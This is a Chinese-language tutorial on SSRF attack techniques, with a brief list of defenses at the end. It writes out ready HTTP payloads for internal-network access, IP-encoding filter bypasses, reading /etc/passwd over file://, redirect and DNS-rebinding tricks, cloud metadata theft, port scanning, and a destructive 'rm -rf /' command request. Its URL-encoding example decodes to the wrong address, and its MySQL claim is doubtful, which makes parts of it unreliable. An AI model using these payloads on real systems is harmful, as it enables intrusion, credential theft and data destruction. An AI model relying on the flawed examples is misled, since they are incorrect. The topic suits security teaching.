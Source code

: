 # SSRF漏洞实战分析的攻击技术详解

## 1. 概述

SSRF（Server-Side Request Forgery，服务器端请求伪造）是一种安全漏洞，攻击者通过操纵服务器端应用程序发起未经授权的请求，从而访问或操作内部资源。SSRF漏洞的利用方式多样，攻击者可以通过构造恶意请求，绕过防火墙或访问控制机制，进而攻击内部系统或第三方服务。本文将详细分析SSRF漏洞的常见攻击手法和利用方式。

## 2. SSRF漏洞的攻击技术

### 2.1 基本攻击手法

#### 2.1.1 直接访问内部资源

攻击者通过构造恶意URL，使服务器向内部网络中的资源发起请求。例如，攻击者可以利用SSRF漏洞访问内网的数据库、文件系统或其他服务。

**示例：**
```http
GET /proxy?url=http://192.168.1.1:8080/admin HTTP/1.1
Host: vulnerable.com
```
在上述请求中，攻击者通过`url`参数指定了内网地址`192.168.1.1:8080/admin`，服务器可能会返回该地址的内容，从而泄露敏感信息。

#### 2.1.2 绕过访问控制

某些应用程序可能对请求的目标地址进行限制，例如只允许访问特定的域名或IP地址。攻击者可以通过以下方式绕过这些限制：

- **域名解析绕过**：使用IP地址的十进制、十六进制或八进制表示法绕过域名限制。
  
  **示例：**
  ```http
  GET /proxy?url=http://3232235777/admin HTTP/1.1
  Host: vulnerable.com
  ```
  其中，`3232235777`是`192.168.1.1`的十进制表示。

- **URL编码绕过**：对URL进行编码，绕过简单的字符串匹配检查。
  
  **示例：**
  ```http
  GET /proxy?url=http://%32%31%39%32%2E%31%36%38%2E%31%2E%31/admin HTTP/1.1
  Host: vulnerable.com
  ```
  其中，`%32%31%39%32%2E%31%36%38%2E%31%2E%31`是`192.168.1.1`的URL编码。

#### 2.1.3 利用协议转换

某些应用程序支持多种协议（如HTTP、FTP、file等），攻击者可以通过切换协议访问本地文件或执行其他操作。

**示例：**
```http
GET /proxy?url=file:///etc/passwd HTTP/1.1
Host: vulnerable.com
```
在上述请求中，攻击者通过`file`协议读取了服务器的`/etc/passwd`文件。

### 2.2 高级攻击手法

#### 2.2.1 利用重定向

某些应用程序在处理请求时会跟随重定向，攻击者可以利用这一点将请求重定向到内部资源。

**示例：**
```http
GET /proxy?url=http://attacker.com/redirect HTTP/1.1
Host: vulnerable.com
```
其中，`attacker.com/redirect`返回一个重定向响应，指向内网地址`192.168.1.1:8080/admin`，服务器会跟随重定向并访问该地址。

#### 2.2.2 利用DNS Rebinding

DNS Rebinding是一种技术，攻击者通过控制DNS解析结果，使服务器在请求过程中解析到不同的IP地址，从而绕过IP地址限制。

**示例：**
1. 攻击者注册一个域名`evil.com`，并将其DNS记录设置为短TTL（Time to Live）。
2. 攻击者向服务器发起请求，初始解析结果为攻击者控制的IP地址。
3. 在请求过程中，攻击者修改DNS记录，使其解析到内网地址`192.168.1.1`。
4. 服务器在后续请求中访问`192.168.1.1`，从而绕过IP地址限制。

#### 2.2.3 利用云服务元数据接口

云服务提供商（如AWS、Azure、GCP等）通常提供元数据接口，用于获取实例的配置信息。攻击者可以利用SSRF漏洞访问这些接口，获取敏感信息。

**示例：**
```http
GET /proxy?url=http://169.254.169.254/latest/meta-data/ HTTP/1.1
Host: vulnerable.com
```
在上述请求中，攻击者通过访问AWS的元数据接口，获取了实例的配置信息。

### 2.3 利用SSRF进行端口扫描

攻击者可以利用SSRF漏洞对内部网络进行端口扫描，探测开放的端口和服务。

**示例：**
```http
GET /proxy?url=http://192.168.1.1:22 HTTP/1.1
Host: vulnerable.com
```
在上述请求中，攻击者通过访问`192.168.1.1:22`，探测该主机是否开放了SSH服务。

### 2.4 利用SSRF进行服务枚举

攻击者可以利用SSRF漏洞枚举内部网络中的服务，获取服务的版本信息或其他敏感信息。

**示例：**
```http
GET /proxy?url=http://192.168.1.1:8080/version HTTP/1.1
Host: vulnerable.com
```
在上述请求中，攻击者通过访问`192.168.1.1:8080/version`，获取了该服务的版本信息。

### 2.5 利用SSRF进行数据泄露

攻击者可以利用SSRF漏洞泄露敏感数据，例如数据库凭据、API密钥等。

**示例：**
```http
GET /proxy?url=http://192.168.1.1:3306/ HTTP/1.1
Host: vulnerable.com
```
在上述请求中，攻击者通过访问`192.168.1.1:3306`，尝试获取MySQL数据库的敏感信息。

### 2.6 利用SSRF进行远程代码执行

在某些情况下，攻击者可以利用SSRF漏洞实现远程代码执行（RCE），例如通过访问内部的管理接口或执行特定的API调用。

**示例：**
```http
POST /proxy?url=http://192.168.1.1:8080/exec HTTP/1.1
Host: vulnerable.com
Content-Type: application/json

{"command": "rm -rf /"}
```
在上述请求中，攻击者通过访问`192.168.1.1:8080/exec`，执行了`rm -rf /`命令，删除了服务器上的所有文件。

## 3. 防御措施

为了有效防御SSRF漏洞，建议采取以下措施：

1. **输入验证**：对用户输入的URL进行严格的验证，确保其符合预期的格式和范围。
2. **白名单机制**：使用白名单机制，限制服务器只能访问特定的域名或IP地址。
3. **禁用不必要的协议**：禁用应用程序中不必要的协议（如`file://`、`gopher://`等），减少攻击面。
4. **网络隔离**：将服务器与内部网络进行隔离，限制其对内部资源的访问。
5. **监控和日志记录**：监控服务器的网络请求，记录异常行为，及时发现和响应攻击。

## 4. 总结

SSRF漏洞是一种严重的安全威胁，攻击者可以通过多种方式利用该漏洞访问内部资源、绕过访问控制、泄露敏感信息甚至执行远程代码。通过深入理解SSRF漏洞的攻击技术，并采取有效的防御措施，可以有效降低该漏洞带来的风险。

---

*文档生成时间: 2025-03-11 12:17:18*
